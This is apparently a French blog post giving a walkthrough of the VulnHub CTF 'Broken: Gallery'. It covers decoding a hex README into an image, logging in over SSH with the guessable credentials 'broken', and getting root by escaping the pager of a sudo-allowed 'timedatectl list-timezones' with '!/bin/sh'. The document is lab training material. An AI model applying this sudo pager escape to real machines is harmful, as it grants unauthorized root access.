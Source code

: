 ```yaml
---
title: "Solution du CTF Broken: Gallery de VulnHub"
tags: [CTF, VulnHub]
---
```


[Broken: Gallery](https://vulnhub.com/entry/broken-gallery,344/) était un CTF absolument nul comme on peut en trouver sur _VulnHub_ (mais on en trouve des très bons aussi).

On trouve sur la VM un serveur SSH ainsi qu'un HTTP avec directory listing activé.

Un fichier `README` contient des données en hexadécimal de la forme `0xXX, 0xXX`. J'ai écrit le code suivant pour décoder :

```python
from binascii import unhexlify
import requests

response = requests.get("http://192.168.56.196/README.md")
hexa_code = response.text.replace(", ", "").replace("\n", "").replace("0x", "")
data = unhexlify(hexa_code)
with open("out", "wb") as fd:
    fd.write(data)
```

On obtenait alors une image GIF qui contenait le texte suivant :

> Hello Bob,
> The application is BROKEN ! the whole infrastructure is BROKEN !!!
> I am leaving for my summer vacation, I hope you  get it fix soon ...
> Cheers.
> avrahamcohen.ac@gmail.com

Faute de plus d'informations, un être humain normalement constitué tenterait de brute forcer un mot de passe pour `bob` ou `avraham`.

Sauf qu'ici il faut se connecter sur le SSH avec le nom d'utilisateur de mot de passe `broken`.

On a alors ces permissions :

```console
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
```

`timedatectl` est un binaire legit et quand on demande son aide on obtient ceci :

```console
broken@ubuntu:~$ timedatectl -h
timedatectl [OPTIONS...] COMMAND ...

Query or change system time and date settings.

  -h --help                Show this help message
     --version             Show package version
     --no-pager            Do not pipe output into a pager
     --no-ask-password     Do not prompt for password
  -H --host=[USER@]HOST    Operate on remote host
  -M --machine=CONTAINER   Operate on local container
     --adjust-system-clock Adjust system clock when changing local RTC mode

Commands:
  status                   Show current time settings
  set-time TIME            Set system time
  set-timezone ZONE        Set system time zone
  list-timezones           Show known time zones
  set-local-rtc BOOL       Control whether RTC is in local time
  set-ntp BOOL             Enable or disable network time synchronization
```

L'option `--no-pager` est intéressante, car elle laisse supposer qu'un pager comme `less` est exécuté or, il est facile de faire exécuter une commande à un pager.

L'option, `list-timezones` semble typiquement être une option qui lancerait un pager. Et c'est d'ailleurs la bonne :

```console
broken@ubuntu:~$ sudo  /usr/bin/timedatectl list-timezones
Africa/Abidjan
Africa/Accra
Africa/Addis_Ababa
Africa/Algiers
Africa/Asmara
--- snip ---
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Voilà, c'était nul. Au mieux je vous ai fait gagner du temps à ne pas faire ce CTF. La vie est courte. Peace.
